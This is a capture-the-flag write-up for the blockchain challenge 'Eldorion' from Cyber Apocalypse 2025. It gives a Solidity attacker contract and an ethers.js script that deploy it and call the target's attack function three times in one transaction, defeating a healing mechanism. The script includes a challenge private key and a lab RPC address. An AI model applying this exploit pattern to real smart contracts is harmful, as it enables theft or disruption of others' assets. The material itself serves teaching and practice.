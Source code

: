 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Eldorion Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: Eldorion
tags: ""
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Eldorion
> Solved by Starry-Lord

![](https://i.imgur.com/VxfRD0j.png)


This Beast was killed with adding an attacker.sol contract to bypass the “eternal resilience” function, which kept healing the boss after each attack. So we needed to make a triple attack:


    cat contracts/attack.sol                                                                                        
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface IEldorion {
        function attack(uint256 damage) external;
    }
    
    contract Attacker {
        function attackThree(address target) external {
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
        }
    }

here is the attack script with ethers.js v5 (because i never managed to make this challenge return valid JSON with v6:


    const fs = require("fs");
    const path = require("path");
    const solc = require("solc");
    const { ethers } = require("ethers");
    
    // === Config ===
    const RPC_URL = "http://83.136.253.25:50179";
    const PRIVATE_KEY = "0x0ce0d36d2fb2e0cfc7f413aec7acf865871b6f71f28ffda18cff63ab50a8c59c";
    
    const eldorionAddress = "0x6114F5Aca890BaE0b153de34Cd024ba24C2A3A68";
    const setupAddress    = "0xaed4036993875E6C22E37BC1a12EFB81e89A9222";
    
    const eldorionAbi = [
      "function health() view returns (uint256)",
      "function isDefeated() view returns (bool)"
    ];
    const setupAbi = [
      "function isSolved() view returns (bool)"
    ];
    const attackerAbi = [
      "function attackThree(address target) external"
    ];
    
    // === Setup Provider + Signer ===
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    const signer = new ethers.Wallet(PRIVATE_KEY, provider);
    
    // === Compile Attacker.sol ===
    async function compileAttacker() {
      const filePath = path.join(__dirname, "../contracts/attack.sol");
      const source = fs.readFileSync(filePath, "utf8");
    
      const input = {
        language: "Solidity",
        sources: {
          "attack.sol": { content: source }
        },
        settings: {
          outputSelection: {
            "*": {
              "*": ["abi", "evm.bytecode"]
            }
          }
        }
      };
    
      const output = JSON.parse(solc.compile(JSON.stringify(input)));
    
      // Print compilation errors
      if (output.errors) {
        for (const error of output.errors) {
          console.error(error.formattedMessage);
        }
      }
    
      const contract = output.contracts["attack.sol"]?.["Attacker"];
      if (!contract) {
        throw new Error("❌ Compilation failed: Attacker contract not found.");
      }
    
      return {
        abi: contract.abi,
        bytecode: contract.evm.bytecode.object
      };
    }
    
    // === Main Execution ===
    async function main() {
      console.log("Attacker:", await signer.getAddress());
    
      const { abi, bytecode } = await compileAttacker();
    
      const factory = new ethers.ContractFactory(abi, bytecode, signer);
      const attacker = await factory.deploy();
      await attacker.deployed();
      console.log("🚀 Attacker contract deployed at:", attacker.address);
    
      const tx = await attacker.attackThree(eldorionAddress);
      await tx.wait();
      console.log("⚔ Sent 3 attacks in a single transaction!");
    
      const eldorion = new ethers.Contract(eldorionAddress, eldorionAbi, signer);
      const setup = new ethers.Contract(setupAddress, setupAbi, signer);
    
      const health = await eldorion.health();
      console.log("🧪 Eldorion's Health:", health.toString());
    
      const defeated = await eldorion.isDefeated();
      console.log("💀 Eldorion Defeated?", defeated);
    
      const solved = await setup.isSolved();
      console.log("🏁 Challenge Solved?", solved ? "✅ YES" : "❌ Not yet");
    
      if (solved) {
        console.log("🎉 Go grab your flag!");
      }
    }
    
    main().catch((err) => {
      console.error("💥 Error:", err.message || err);
    });
    
![](https://i.imgur.com/Zmnbjk5.png)

